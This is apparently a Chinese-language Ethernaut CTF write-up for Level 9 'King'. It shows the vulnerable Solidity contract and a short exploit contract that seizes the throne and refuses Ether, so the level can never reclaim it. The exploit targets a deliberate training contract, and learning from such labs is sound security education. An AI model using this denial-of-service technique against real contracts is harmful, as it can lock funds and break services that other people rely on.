 # Ethernaut CTF Writeup

## Level 9 King

> 題目: https://ethernaut.openzeppelin.com/level/0x473c8dF98DFd41304Bff2c5945B9f73e30f5c013

原始碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}

```

過關條件: 

- 當你提交實例給關卡時，關卡會重新取回他的王位所有權，目標阻止合約重獲王位

解法：

- 自己布署一個合約來取得王位，該合約不要提供任何接收 Ether 的功能，關卡便無法取回王位

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exploit {
    King target = King(payable(0x91417dead2e54085b444aDC065bfA50284868e3a));
    
    constructor() payable {
        address(target).call{value: target.prize()}("");
    }
}
```